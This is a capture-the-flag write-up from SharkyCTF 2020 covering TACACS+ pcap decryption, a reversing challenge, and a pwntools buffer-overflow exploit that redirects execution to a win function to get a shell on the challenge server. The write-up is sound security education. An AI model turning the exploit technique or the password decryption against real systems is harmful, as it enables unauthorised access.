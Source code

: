 ```yaml
---
setup: |
  import Layout from '../../../layouts/BlogPostLayout.astro';
title: Sharky 2020 CTF writeup
date: 2020-05-10
description: CTF writeup
author: "Gold Ayan"
category: "CTF"
tags:
  - ctf
  - writeup
---
```


SharkyCTF writeup

## Networking - RattataTACACS

- Challenge contains pcap file which contains tacacs+ encrypted packet which we need to decrypt to get the flag.
- The udp packets followed by tacacs contains the authentication details of user logged on to the cisco router.

<!-- more -->

![sharkyctf-2020-udpstreamflow](/image/sharky-ctf-2020/udpStreamFlowChase.png)

- Authentication details are encrypted so i decrypted the type 7 password using the webite to obtain the **Decryption key**

![sharkyctf-2020-imagedecrypt](/image/sharky-ctf-2020/ImageDecryption.png)

- Applying the decryption key for tacacs to wireshark to decrypt the packet (Perference -> Protocols -> Tacacs+).

![sharkyctf-2020-tacacs](/image/sharky-ctf-2020/tacacsDecryption.png)

- checking the encrypted packet we can get the flag

```
shkCTF{T4c4c5_ch4ll3n63_br0}
```

## Pwn - Give away 0

- Challenge contains a ELF 64 bit binary.
- statically analyzing binary help me to find it has **win** which executes /bin/sh (shell) so all we need to do is redirect the code to win function.
- Binary contains Buffer overflow vulnerability in vuln function so we are going to overflow the buffer and points the _instruction pointer_ to win function.
- shell code written using _pwntools_.

```python

from pwn import \*
vuln=ELF('./0_give_away')

conn=remote('sharkyctf.xyz',20333)
conn.sendline(("A"\*40).encode()+p64(vuln.symbols['win_func']))
conn.interactive()

```

- Run the code and **cat flag.txt** in the server.

```

shkCTF{#Fr33*fL4g!!*<3}

```

**Note**: When you are writting shell code in python3 remember to convert the string to bytes inorder to combine JUNK + ADDR

## Reverse - Simple

- Challenge contains asm file.

```asm
BITS 64

SECTION .rodata
	some_array db 10,2,30,15,3,7,4,2,1,24,5,11,24,4,14,13,5,6,19,20,23,9,10,2,30,15,3,7,4,2,1,24
	the_second_array db 0x57,0x40,0xa3,0x78,0x7d,0x67,0x55,0x40,0x1e,0xae,0x5b,0x11,0x5d,0x40,0xaa,0x17,0x58,0x4f,0x7e,0x4d,0x4e,0x42,0x5d,0x51,0x57,0x5f,0x5f,0x12,0x1d,0x5a,0x4f,0xbf
	len_second_array equ $ - the_second_array
SECTION .text
    GLOBAL main

main:
	mov rdx, [rsp]
	cmp rdx, 2 # two arguments
	jne exit
	mov rsi, [rsp+0x10] # get the first argument
	mov rdx, rsi
	mov rcx, 0
l1:
	cmp byte [rdx], 0 # Strlen function, the length is stored in rcx
	je follow_the_label
	inc rcx
	inc rdx
	jmp l1
follow_the_label: # Array are compard from last to first
	mov al, byte [rsi+rcx-1] # rsi contains the input value
	mov rdi,  some_array
	mov rdi, [rdi+rcx-1] # get the particular value of some_array to rdi
	add al, dil  # dil -> lower 8 bit of rdi, add it the al register
	xor rax, 42
	mov r10, the_second_array
	add r10, rcx
	dec r10
	cmp al, byte [r10]
	jne exit
	dec rcx
	cmp rcx, 0
	jne follow_the_label
win:#Return 0 function
	mov rdi, 1
	mov rax, 60
	syscall
exit:
	mov rdi, 0
	mov rax, 60
	syscall

```

- we need to find the input so that this program will return 1.
- The above program gets input string and compare it with the second_array.
- Before comparing, the value in input are added with some array and XORed with 42(0x2a in hex).
- I have written python program to do the above thing in reverse to obtain the input which is the flag.
- Included all the reference material that i used to solve the challenge are linked below in Resources section.
- Solution

```python
  sub_array=[10,2,30,15,3,7,4,2,1,24,5,11,24,4,14,13,5,6,19,20,23,9,10,2,30,15,3,7,4,2,1,24]
  encode_array=[0x57,0x40,0xa3,0x78,0x7d,0x67,0x55,0x40,0x1e,0xae,0x5b,0x11,0x5d,0x40,0xaa,0x17,0x58,0x4f,0x7e,0x4d,0x4e,0x42,0x5d,0x51,0x57,0x5f,0x5f,0x12,0x1d,0x5a,0x4f,0xbf]

for i in range(len(sub_array)):
xored_value = encode_array[i] ^ 0x2a
final_value = xored_value - sub_array[i]
print(chr(final_value),end='')

```

- Flag obtained

```

shkCTF{h3ll0_fr0m_ASM_my_fr13nd}

```

## Resources:

### Reference for tacacs

- (How to decrypt tacacs using wireshark)[https://www.youtube.com/watch?v=eaasnPU9IaA]

### Materials used for reversing simple

1)https://stackoverflow.com/questions/1753602/what-are-the-names-of-the-new-x86-64-processors-registers

```

# 64-bit register | Lower 32 bits | Lower 16 bits | Lower 8 bits

rax | eax | ax | al
rbx | ebx | bx | bl
rcx | ecx | cx | cl
rdx | edx | dx | dl
rsi | esi | si | sil
rdi | edi | di | dil
rbp | ebp | bp | bpl
rsp | esp | sp | spl
r8 | r8d | r8w | r8b
r9 | r9d | r9w | r9b
r10 | r10d | r10w | r10b
r11 | r11d | r11w | r11b
r12 | r12d | r12w | r12b
r13 | r13d | r13w | r13b
r14 | r14d | r14w | r14b
r15 | r15d | r15w | r15b

```

2)https://stackoverflow.com/questions/30528091/whats-the-asm-equivalent-of-replacing-a-char-from-a-string-to-a-char-of-another

```asm

section .text
global \_ft_strcat

\_ft_strcat:
mov rax, rdi
mov rbx, rsi

loop_s1:
cmp byte[rax], 0
jz copy_str
inc rax
jmp loop_s1

copy_str: #( Helped me to solve simple )
cmp byte[rbx], 0
jz end
mov byte[rax], byte[rbx]
inc rax
inc rbx
jmp copy_str

end:
mov byte[rax], 0
ret

```

### Materials used for shellcoding

- [Possible way to send string to stack x86](https://illegalbytes.com/2018-02-25/two-ways-to-pass-data-to-your-shellcode/)
- [String Encoding in Python for shellcoding](https://gist.github.com/offlinemark/5be8375ba28d5b7dd2d0)
- [x86 cheatsheet](https://www.bencode.net/blob/nasmcheatsheet.pdf)
- [Intel reference](https://software.intel.com/content/www/us/en/develop/articles/introduction-to-x64-assembly.html)
